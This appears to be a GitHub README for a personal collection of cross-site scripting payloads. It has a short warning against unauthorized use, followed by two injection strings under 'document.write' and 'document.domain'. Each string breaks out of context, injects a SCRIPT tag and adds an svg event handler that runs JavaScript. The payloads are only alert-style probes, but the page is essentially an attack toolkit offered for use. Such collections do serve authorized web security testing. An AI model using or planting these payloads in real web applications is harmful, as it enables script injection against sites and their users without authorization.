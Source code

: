 # xss
Personally created XSS payloads

## Danger zone! <br>
> Danger zone is the area which xss payloads can be OR will be harmfull to a web application <br>
> so, do no use them unless you're sure the web app will not be damaged! <br>

<br>

> Do not use these payloads in a random or unauthorized web site, I do not take any resposibility <br>
> to any script kiddies who decide to execute those on random places, you have been warned!

### document.write <br>

```html
;//<!----><SCRIPT>alert(1);</SCRIPT><svg onerror="alert(document.write(1337))">
```
<br>

### document.domain <br>

```html
;//<!----><SCRIPT>alert(1);</SCRIPT><svg onload="alert(document.domain)">
```
